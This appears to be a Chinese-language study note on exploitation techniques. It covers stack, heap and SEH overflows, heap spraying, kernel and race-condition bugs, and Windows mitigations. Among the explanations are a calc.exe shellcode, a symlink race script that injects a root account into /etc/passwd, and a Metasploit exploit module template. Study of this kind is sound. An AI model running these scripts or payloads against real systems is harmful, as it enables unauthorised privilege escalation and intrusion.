



# 概念
* 漏洞: 能导致软件做一些超出设计范围的事情. (漏洞挖掘者一般弹出对话框或calc.exe)
* 0day: 攻击者掌握的, 未被软件厂商修复的漏洞. 
* 1day: 已被厂商发现并修复, 但用户还没打补丁的漏洞. 
* POC代码: Proof of Concept, 证明漏洞的存在或利用漏洞的代码. 
* 漏洞参考网站 
    * cve.mitre.org
    * cert.org
    * blogs.360.cn
    * https://www.anquanke.com/
    * freebuf.com

# 缓冲区溢出
* 根本原因: 冯诺依曼计算机体系未对数据和代码作明确区分

    

* shellcode
    1. 将机器码作为字符串保存到变量`sh`(不能包含`\x00`, 这样字符串会被截断, 可以用`xor eax, eax`代替含有操作数0的指令, 以生成0), 注意低位优先的系统中, 每条指令对应的字符串要倒序(如, `call eax` -> `D0FF` -> `"\xFF\xD0"`)
    2. `typedef void (*func)();`
    3. `((func) &sh)();`看shellcode能不能运行. 

    * shellcode例子

        ```x86asm
        mov esp,ebp ; 
		push ebp ;      
		mov ebp,esp ;                      把当前esp赋给ebp 
		xor edi,edi ;
		push edi ;压入0, esp－4,;   作用是构造字符串的结尾\0字符。
		sub esp, 08h
		mov byte ptr [ebp-0ch], 'm'
		mov byte ptr [ebp-0bh], 's'
		mov byte ptr [ebp-0ah], 'v'
		mov byte ptr [ebp-09h], 'c'
		mov byte ptr [ebp-08h], 'r'
		mov byte ptr [ebp-07h], 't'
		mov byte ptr [ebp-06h], '.'
		mov byte ptr [ebp-05h], 'd'
		mov byte ptr [ebp-04h], 'l'
		mov byte ptr [ebp-03h], 'l'
		lea eax, [ebp-0ch]
		push eax    ; 把字符串"msvcrt.dll"的地址压栈
		mov eax, 0x7c801d7b
		call eax    ; 调用LoadLibrary


		xor ebx,ebx
		push ebx
		push 'exe.'
		push 'clac'
		mov eax, esp
		push eax    ; 把'calc.exe'字符串的地址压栈, 作为system函数的参数
		mov eax,0x77bf93c7 ; "\xc7\x93\xbf\x77"
		call eax
		mov eax, 0x7c81cafa ; "\xfa\xca\x81\x7c"
		call eax ; 调用ExitProcess
        ```
    * shellcode的设计
        1. 提取机器码(用vs)
        2. 调试
        3. 通用性(获取调用的api地址)
            * api地址随平台变化
            * 搜索`jmp esp`地址

            
            
    * 冲击波漏洞(MS03-26)
        * `CoGetInstanceFromFile(pServerInfo, NULL, 0, CLSCTX_REMOTE_SERVER, STGM_READWRITE, L"C:\\1234561111111111111111111111111.doc", 1, &qi);` 远程和本地均有调用这个接口. 这个调用的文件名参数过长时, 会导致客户端的本地溢出(用`lstrcpyw`拷贝)
        * 在客户端给服务器传递这个参数的时候, 会自动转换为`L"\\servername\c$\1234561111111111111111111111111., doc"`的形式再传递给远程服务器. 在远程服务器的处理中会先取出servername名, 但未做长度检查(给定0x20内存空间). 

# 堆溢出
* 原理
    * windows堆是桶装结构, 相同大小的节点组织在同一条双向链表中
    * 分配内存时, 从双向链表摘下节点: `Node->bp->fp = Node->fp; Node->fp->bp = Node->bp; ` 两次赋值即是攻击者可利用的两次内存写入机会. 

        
    * 一个漏洞代码示例: 
        ```cpp
        #include <stdio.h>
        #include <malloc.h>
        int main(void) { 
            char *p1 = malloc(Node0);
            strcpy(p1, buf);
            char *p2 = malloc(Node1); // 发生堆溢出攻击
            return 0;
        }
        ```
    * 通过溢出Node1前的节点, 覆盖Node1节点的`bp`字段为`where`值, `fp`字段为`what`值, 于是从双向链表中摘下节点的操作实际变成: `((Node1->where) + 0x0) = (Node1->what); ((Node1->what) + 0x4) = (Node1->where); ` 即 `*where = what; *(what + 4) = where; `

        
    
* 利用
    * 覆盖PEB中的字段
        * PEB中的`0x7ffdf020`处保存`RtlEnterCriticalSection`函数的地址
        * 载荷: 填充字节 + shellcode地址 + `\x7f\xfd\xf0\x20`
        * 攻击后的执行链: `RtlEnterCriticalSection` -> shellcode -> `RtlEnterCriticalSection` -> `MessageBox`

# 堆喷射
* 多见于浏览器漏洞
* shellcode存在堆上; 在shellcode前面用0x90(NOP)填充
* 栈溢出将返回地址覆盖为如`0x0c0c0c0c`的值, 执行跳转到该区域后, 会大概率滑行到shellcode

    

# SEH溢出
* SEH原理
    * SEH结构体放在系统栈中
        ```x86asm
            push -0x1
            push <异常处理函数的位置>
            push <下一个SEH的位置>
        ```
    * 线程初始化时, 会自动向栈中安装一个SEH, 作为线程默认的异常处理
    * 若程序源代码使用了`_try{}_except{}`或者`Assert`宏等异常处理机制, 编译器将最终通过向当前函数栈帧中安装一个S.E.H来实现异常处理. 
    * 异常发生时, 操作系统会中断程序, 并首先从T.E.B的0字节偏移处取出距离栈顶最近的S.E.H, 使用异常处理函数句柄所指向的代码来处理异常. 若异常处理函数运行失败, 则沿着S.E.H链尝试其它处理函数. 
    * 若程序安装的所有异常处理程序都不能运行, 将运行windows默认异常处理函数(弹出一个弹框提示错误, 然后关闭程序)

        

* 利用: 同栈溢出, 覆盖异常处理函数地址为shellcode地址. 

# 内核漏洞
* 分析过程

    

* 拒绝服务漏洞
    * `if (MmIsAddressValid(Buffer)) {memcmp(Buffer, buffer2, len);}`
        * `MmIsAddressValid`不可信, 只要Buffer地址处字节在有效页, 下个字节在无效页, len大于1, 则校验通过后, `memcpy`可导致蓝屏. 
* 缓冲区溢出
    * ROP(Return-oriented programming): 对抗DEP保护技术
        * 
* 内存篡改
    * 任意地址写任意数据
        * 条件: 驱动中采用NeitherIO通信方式, 且没有校验要写入的地址和要写入的数值. 
            ```cpp
            ```
        * 过程
            * R3传入一个内核地址, 比如某个表中的函数地址
            * R3传入一个任意数据, 比如0
            * 在R3分配一个0地址空间(`ZwAllocateVirtualMemory`, win7及以前可用), 并将shellcode拷贝到此内存空间
                * 
                * shellcode
                    * 提升进程的权限到system进程: 
                        * 可读SAM, SECURITY等注册表项
                        * 可访问系统还原文件`SYSTEM VOLUME INFORMATION`(要在高级设置中把`隐藏受保护的操作系统文件`的勾去掉)
                        * 可更换系统文件
                        * 可手动杀毒
                    * 恢复内核hook和inlinehook
                    * 添加调用门, 中断门等
    * 固定地址写任意数据
    * 任意地址写固定数据

* linux下的竞争条件漏洞(race condition)
    * 属于TOCTTOU(time-of-check-to-time-of-use)
    * 写多线程程序时, 忘了对共享资源加锁. 
    * 刻舟求剑: 检查某个对象时, 其它线程可能正在改它, 但程序假设这些对象保持不变
    * 条件
        * 有两个或以上事件, 两个事件间有一定间隔, 且有一定关系(第二个依赖于第一个). 
        * 攻击者能够改变第一个事件所产生的, 为第二个条件所依赖的假设
    * 相关函数
        * `open(file_name, O_CREAT | O_EXCL | O_TRUNC | O_RDWR, 0600)`: 有`O_EXCL`则别的进程无法打开, 否则别的进程可在某漏洞进程打开该文件时同时操作该文件. 
    * 利用
        * 例子1
            * 假设有一个可执行文件(漏洞程序), 其**拥有者是root, 且有`s`权限**. 该程序通过标准I/O流向`/tmp/xyz`文件写入内容
            * 运行如下脚本, 以普通用户身份运行漏洞程序, 循环向程序输入`tom:ttXydORJt50wQ:0:0:,,,:/home:/bin/bash`(这行是要写入`/etc/passwd`文件的, 为tom用户获取管理员权限)

                ```sh
                while true
                do
                    ./vulp < attack_input # attack_input文件中的内容为: tom:ttXydORJt50wQ:0:0:,,,:/home:/bin/bash
                done
                ```
            * 运行如下脚本, 创造链接文件`/tmp/xyz`, 指向`/etc/passwd`, 于是上一步运行的脚本不停向`/etc/passwd`写入内容. 
                ```sh
                    old=`ls -l /etc/passwd`
                    new=`ls -l /etc/passwd`
                    while [ "$old" = "$new" ]
                    do
                        rm -f /tmp/XYZ
                        >/tmp/XYZ
                        ln -sf /etc/passwd /tmp/XYZ
                        new=`ls -l /etc/passwd` 
                    done
                ```
            * 注意
                * 根据 https://www.cxyzjd.com/article/HananoYousei/91364810 中的说法, `sudo sysctl -w fs.protected_symlinks=1` 即可防御攻击(默认即是1, 要完成攻击则需要设为0). 
                * 事先若有tom用户, 脚本直接在`/etc/passwd`末尾加的那一行不起效, 登录tom时仍用原来的那行
                * `set-uid`标志位
                    * 当一个运行的程序拥有该标志位时, 它被假设具有拥有者的权限. 比如, **该程序的拥有者为root, 则任何运行该程序的用户都会获得root权限**. 
                    * `rws`中的`s`即是该标志位. 可以`chmod u+s <目标程序文件>`
        * 例子2: CVE-2014-0196
            * buffer满了(`t->used >= tb->size`)时申请新内存
            * 通过溢出覆盖下一个tty的`tty_struct`中的`*oops`数组中某个函数指针改成shellcode的地址


* double-fetch
    * 用户通常会通过调用内核函数完成特定功能. 当内核函数两次从同一用户地址读取同一数据时, 第一次检查数据有效性(指针验空, 缓冲区大小验证等), 第二次使用数据. 而同时另一用户线程通过创造竞争条件, 在两次内核读取之间对用户数据进行篡改. 

* UAF(use after free)
    * 寻找或生成野指针
        * 引用技术多加或少减, 都会造成引用计数不为0, 然而此时内存已释放, 从而出现野指针. 

* 未初始化漏洞
    * 未初始化指针: 释放一个野指针. 利用成功可获得smbd运行权限
    * 内存分配未初始化: 类似UAF. 分配一块内存后, 没有清零或初始化, 其中可能存在别人留下的恶意代码. 

* OOB(out of bound): 越界访问漏洞
    * 如栈溢出, 堆溢出, 整数溢出, 类型混淆等
    * 

# windows安全机制


* GS机制

    

    * 绕过
        * 未被保护的内存绕过: 不大于4字节的缓存默认不开
        * 覆盖虚函数突破GS
        * SEH攻击突破GS
        * 替换cookie突破

* 变量重排

    

# safeseh
    * 编译时加`/safeseh`选项
    * 编译器会把异常处理函数地址提取出来, 编入一张安全的S.E.H表, 并将这张表放到程序的映像里. 运行时若调用异常处理函数, 会检查其地址是否在S.E.H表中. 
    * `dumpbin /loadconfig <文件名>` 可显示S.E.H表
    * 操作系统是用`RtlDispatchException -> RtlIsValidHandler` 函数来进行有效性验证的. 

# DEP(data execution prevention)
* 将数据所在内存页标识为不可执行

# 工具
* metasploit

    ```rb
    require 'msf/core'

    class Metasploit3 < Msf::Exploit::Remote
        include Exploit::Remote::Top

        def initialize(info={})
            super(update_info(info,
            'Name'           => "Code Example",
            'Description'    => %q{
                This is an example of a module using references
            },
            'License'        => MSF_LICENSE,
            'Author'         => [ 'Unknown' ],
            'References'     =>
                [
                [ 'CVE', '2014-9999' ],
                ['BID', '1234'],
                ['URL', 'http://example.com/blog.php?id=123']
                ],
            'Platform'       => 'win',
            'Targets'        => [
                [ 'Windoes 2000', { 'Ret' => 0x77F8948B } ]
                [ 'Windoes XP SP2', { 'Ret' => 0x7C914393 } ]
            ],
            'Payload'        => {
                'Space' => 200,
                'BadChars' => "\x00"
            },
            'Privileged'     => false,
            'DisclosureDate' => "Apr 1 2014",
            'DefaultTarget'  => 0))
        end

        def exploit
            connect # 根据设置的ip地址和端口, 连接到目标服务器
            attack_buf = 'a' * 200 + [target['Ret']].pack('V') + payload.encoded # payload在命令中指定
            sock.put(attack_buf)
            handler
            disconnect
            # print_debug('Hello, world')
        end

    end
    ```

    * 命令
        * `show exploits`: 列出可用模块(包括自己添加的模块)
        * `use <ruby脚本路径>`: 路径是相对于`/use/share/metasploit-framework/modules/exploits的`
        * `show targets`: 显示目标平台(操作系统)
        * `set target 0`: 选择第0项作为target
        * `show payloads`: 显示可用的shellcode
        * `set payload windows/exec`: 这个shellcode可执行任意命令
        * `show options`: 显示配置信息
        * `set rhost <目标ip地址>`: 
        * `set rport <目标端口>`: 
        * `set cmd calc`: 配置shellcode待执行的命令为'calc'程序
        * `set exitfunc seh`: 以seh退出程序
        * `exploit`: 发送测试数据, 执行攻击